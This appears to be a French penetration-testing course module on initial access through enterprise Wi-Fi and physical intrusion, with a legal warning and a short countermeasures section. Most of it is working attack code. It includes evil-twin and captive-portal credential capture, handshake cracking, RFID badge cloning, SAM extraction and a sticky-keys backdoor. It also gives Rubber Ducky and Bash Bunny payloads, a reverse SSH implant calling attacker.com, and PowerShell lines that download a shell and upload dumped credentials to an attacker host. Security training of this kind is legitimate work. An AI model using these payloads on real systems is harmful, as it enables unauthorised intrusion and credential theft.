



---
tags:
  - formation
  - security
  - windows
  - hacking
  - wifi
  - physical
  - initial-access
---

# Accès Physique & Wi-Fi - Initial Access

Cette annexe couvre les techniques d'accès initial qui précèdent l'exploitation réseau : attaques Wi-Fi entreprise, accès physique, et dispositifs malveillants.

!!! warning "Cadre Légal"
    Ces techniques nécessitent une autorisation explicite incluant :

    - Tests Wi-Fi sur le SSID de l'entreprise
    - Accès physique aux locaux
    - Déploiement de dispositifs (même temporaires)

    Vérifiez toujours le ROE (Rules of Engagement) avant toute action.

---

## Vue d'Ensemble - Pre-Network Kill Chain



---

## 1. Attaques Wi-Fi Entreprise

### 1.1 WPA2-Enterprise (802.1X)

Les réseaux d'entreprise utilisent généralement WPA2-Enterprise avec authentification RADIUS.



**Protocoles EAP courants :**

| Protocole | Sécurité | Vulnérabilités |
|-----------|----------|----------------|
| EAP-TLS | Haute | Nécessite certificat client |
| PEAP-MSCHAPv2 | Moyenne | Hash capturable si cert non validé |
| EAP-TTLS | Moyenne | Similaire à PEAP |
| EAP-GTC | Basse | Credentials en clair dans le tunnel |

### 1.2 Evil Twin Attack

Créer un faux point d'accès imitant le réseau légitime pour capturer les credentials.

**Matériel requis :**

- Adaptateur Wi-Fi compatible mode monitor/AP (Alfa AWUS036ACH, etc.)
- Antenne directionnelle (optionnel, pour ciblage)

**Avec hostapd-wpe (EAP) :**

```bash
# Installation
git clone https://github.com/OpenSecurityResearch/hostapd-wpe
cd hostapd-wpe
./build.sh

# Configuration
cat > hostapd-wpe.conf << 'EOF'
interface=wlan0
driver=nl80211
ssid=CORP-WIFI
channel=6
hw_mode=g
wpa=2
wpa_key_mgmt=WPA-EAP
wpa_pairwise=CCMP
ieee8021x=1
eap_server=1
eap_user_file=/etc/hostapd-wpe/hostapd-wpe.eap_user
ca_cert=/etc/hostapd-wpe/ca.pem
server_cert=/etc/hostapd-wpe/server.pem
private_key=/etc/hostapd-wpe/server.key
dh_file=/etc/hostapd-wpe/dh
EOF

# Lancement
hostapd-wpe hostapd-wpe.conf

# Les credentials capturés apparaissent dans la console
# Format: username:challenge:response (NTLMv1/v2 crackable)
```

**Avec EAPHammer (plus simple) :**

```bash
# Installation
git clone https://github.com/s0lst1c3/eaphammer
cd eaphammer
./kali-setup

# Créer les certificats
./eaphammer --cert-wizard

# Lancer l'attaque
./eaphammer -i wlan0 --essid CORP-WIFI --channel 6 --auth wpa-eap --creds

# Crack des hashes capturés
hashcat -m 5500 captured.hashes wordlist.txt  # NTLMv1
hashcat -m 5600 captured.hashes wordlist.txt  # NTLMv2
```

### 1.3 Captive Portal Phishing

Créer un portail captif imitant celui de l'entreprise pour voler des credentials.

```bash
# Avec WiFi-Pumpkin3
wifipumpkin3

# Configuration
wp3 > set interface wlan0
wp3 > set ssid "Guest-WiFi"
wp3 > set proxy captiveflask

# Templates de portail disponibles:
# - login_form (générique)
# - facebook, google, etc.
# - custom (personnalisé)

wp3 > start
```

### 1.4 Deauth & Handshake Capture

Forcer les clients à se reconnecter pour capturer le handshake (WPA2-PSK) ou les rediriger vers l'Evil Twin.

```bash
# Passer en mode monitor
airmon-ng start wlan0

# Scanner les réseaux
airodump-ng wlan0mon

# Cibler un réseau
airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w capture wlan0mon

# Deauth (autre terminal)
aireplay-ng -0 5 -a AA:BB:CC:DD:EE:FF wlan0mon

# Crack le handshake (WPA2-PSK)
aircrack-ng -w wordlist.txt capture-01.cap
```

---

## 2. Accès Physique

### 2.1 Techniques d'Entrée

| Technique | Difficulté | Risque |
|-----------|------------|--------|
| **Tailgating** | Facile | Moyen |
| **Badge Cloning** | Moyen | Élevé |
| **Lockpicking** | Élevé | Élevé |
| **Social Engineering** | Variable | Faible |

**Tailgating (Piggybacking) :**

- Suivre un employé qui badge
- Prétendre avoir oublié son badge
- Entrer lors de livraisons/maintenance

**Badge Cloning (si dans le scope) :**

```bash
# Proxmark3 - Lire un badge
proxmark3 > lf search
# Identifier le type (HID, EM4100, etc.)

proxmark3 > lf hid read
# Tag ID: 2004263f88

# Cloner sur une carte vierge
proxmark3 > lf hid clone 2004263f88
```

### 2.2 Actions sur Place

Une fois à l'intérieur, plusieurs options :



### 2.3 Implants Réseau

**LAN Turtle :**

```bash
# Configuration via SSH
ssh root@172.16.84.1

# Module reverse shell
turtle > module
turtle > select reverseSSH
turtle > configure
  RHOST: attacker.com
  RPORT: 22
turtle > enable
turtle > start

# Le LAN Turtle établit un tunnel SSH sortant
# Accès au réseau interne via ce tunnel
```

**Packet Squirrel :**

```bash
# Mode tcpdump passif
# Capture tout le trafic qui passe

# payloads/library/tcpdump/payload.txt
LED ATTACK
NETMODE BRIDGE
TCPDUMP_OPTIONS="-i br-lan -w /mnt/loot/dump.pcap"
```

### 2.4 Accès Poste Non Verrouillé

Si un poste est laissé déverrouillé :

```powershell
# Extraction rapide (30 secondes)

# 1. Reverse shell
powershell -ep bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://attacker/shell.ps1')"

# 2. Dump credentials en mémoire
.\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit" > creds.txt

# 3. Exfiltrer
Invoke-WebRequest -Uri "http://attacker/upload" -Method POST -InFile creds.txt
```

### 2.5 Poste Verrouillé - Attaques

**Boot USB (si BIOS non protégé) :**

```bash
# Booter sur Kali USB
# Monter le disque Windows
mount /dev/sda2 /mnt/windows

# Extraire SAM et SYSTEM
cp /mnt/windows/Windows/System32/config/SAM /tmp/
cp /mnt/windows/Windows/System32/config/SYSTEM /tmp/

# Crack offline
secretsdump.py -sam SAM -system SYSTEM LOCAL
```

**Sticky Keys Backdoor :**

```bash
# Remplacer sethc.exe par cmd.exe
# Au login, appuyer 5x sur Shift = cmd en SYSTEM

cp /mnt/windows/Windows/System32/sethc.exe /mnt/windows/Windows/System32/sethc.exe.bak
cp /mnt/windows/Windows/System32/cmd.exe /mnt/windows/Windows/System32/sethc.exe
```

**DMA Attack (si Thunderbolt/FireWire) :**

```bash
# PCILeech - Lecture directe de la RAM via DMA
pcileech.exe dump -out memory.dmp

# Extraire les credentials de la RAM
volatility -f memory.dmp --profile=Win10x64 hashdump
```

---

## 3. Dispositifs USB Malveillants

### 3.1 Rubber Ducky

Simule un clavier USB, tape des commandes à haute vitesse.

**Payload : Reverse Shell**

```
DELAY 1000
GUI r
DELAY 500
STRING powershell -ep bypass -w hidden -c "IEX(New-Object Net.WebClient).DownloadString('http://192.168.1.100/shell.ps1')"
ENTER
```

**Payload : Exfiltration WiFi Passwords**

```
DELAY 1000
GUI r
DELAY 500
STRING cmd
CTRL SHIFT ENTER
DELAY 1000
ALT y
DELAY 500
STRING netsh wlan export profile key=clear folder=C:\temp
ENTER
DELAY 1000
STRING powershell Invoke-WebRequest -Uri http://192.168.1.100/upload -Method POST -Body (Get-Content C:\temp\*.xml -Raw)
ENTER
```

### 3.2 Bash Bunny

Plus polyvalent que le Rubber Ducky, peut aussi émuler un réseau ou stockage.

```bash
# payload.txt - Exfiltration credentials

LED SETUP
ATTACKMODE HID STORAGE

LED ATTACK
RUN WIN "powershell -ep bypass"
Q DELAY 1000
Q STRING "$creds = cmdkey /list; $creds | Out-File /mnt/loot/creds.txt"
Q ENTER

LED FINISH
```

### 3.3 USB Armory

Mini-ordinateur USB capable de faire du MitM réseau.

```bash
# Se présente comme une carte réseau USB
# Capture tout le trafic réseau de l'hôte

# Exemple: Responder en USB
usb-armory $ responder -I usb0 -dwv
```

### 3.4 O.MG Cable

Câble USB d'apparence normale avec implant intégré.

```bash
# Payload via interface web
# ou commande directe

# Exemple: Keylogger + Exfiltration
KEYLOG START
# Plus tard...
KEYLOG DUMP wifi
```

---

## 4. Contre-Mesures Wi-Fi

### Configuration Sécurisée

```bash
# WPA2-Enterprise avec EAP-TLS (certificats)
# Pas de validation PEAP-MSCHAPv2 sans certificat

# Radius - Forcer la validation du certificat serveur
# Windows NPS : Activer "Validate server certificate"
# Certificat racine CA déployé via GPO
```

### Détection Evil Twin

```bash
# Wireless IDS (WIDS)
# - Détecte les AP avec même SSID mais BSSID différent
# - Alerte sur deauth floods

# Solutions:
# - Cisco Adaptive wIPS
# - Aruba RFProtect
# - Open source: Kismet + alertes
```

---

## 5. Contre-Mesures Physiques

### Sécurité des Postes

```powershell
# GPO: Verrouillage automatique
Computer Configuration > Windows Settings > Security Settings > Local Policies > Security Options
"Interactive logon: Machine inactivity limit" = 300 secondes

# Désactiver boot USB
# BIOS: Boot order = HDD only + password BIOS

# BitLocker avec TPM + PIN
manage-bde -on C: -RecoveryPassword -RecoveryKey E: -TPMandPIN

# Désactiver ports USB (si applicable)
# GPO ou endpoint protection
```

### Détection USB Malveillants

```powershell
# Sysmon - Event ID 6 (Driver loaded)
# Alerter sur nouveaux HID devices

# USB Device Control
# - Autoriser uniquement les VID/PID connus
# - Solutions: Endpoint Protector, DeviceLock

# Monitoring
Get-WinEvent -FilterHashtable @{LogName='Microsoft-Windows-DriverFrameworks-UserMode/Operational'; ID=2003}
```

---

## 6. Checklist Red Team Physical

### Préparation

- [ ] ROE couvre l'accès physique
- [ ] Équipement testé et fonctionnel
- [ ] Cover story préparée
- [ ] Numéro d'urgence du client
- [ ] Lettre d'autorisation sur soi

### Équipement Type

| Catégorie | Équipement |
|-----------|------------|
| **Wi-Fi** | Alfa AWUS036ACH, antenne directionnelle |
| **USB** | Rubber Ducky, Bash Bunny, clé bootable |
| **Réseau** | LAN Turtle, câble ethernet |
| **Badge** | Proxmark3, cartes vierges |
| **Divers** | Appareil photo discret, tournevis |

### Sur Place

- [ ] Photos des badges/layouts
- [ ] Noter les SSID visibles
- [ ] Identifier les ports réseau accessibles
- [ ] Repérer les postes non verrouillés
- [ ] Documenter les failles physiques

---

## Outils Recommandés

| Outil | Usage |
|-------|-------|
| **EAPHammer** | Evil Twin WPA2-Enterprise |
| **WiFi-Pumpkin3** | Rogue AP / Captive Portal |
| **Aircrack-ng** | Suite Wi-Fi offensive |
| **Proxmark3** | Clonage badges RFID |
| **PCILeech** | Attaques DMA |
| **Hak5 Gear** | Rubber Ducky, Bash Bunny, LAN Turtle |

---

## Références

- [Wireless Pentesting Cheatsheet](https://book.hacktricks.xyz/pentesting/pentesting-wifi)
- [Hak5 Documentation](https://docs.hak5.org/)
- [EAPHammer Wiki](https://github.com/s0lst1c3/eaphammer/wiki)
- [Physical Penetration Testing - SANS](https://www.sans.org/cyber-security-courses/physical-penetration-testing/)

---

[Retour au Programme](index.md){ .md-button }
[Module 01 - Setup →](01-module.md){ .md-button .md-button--primary }
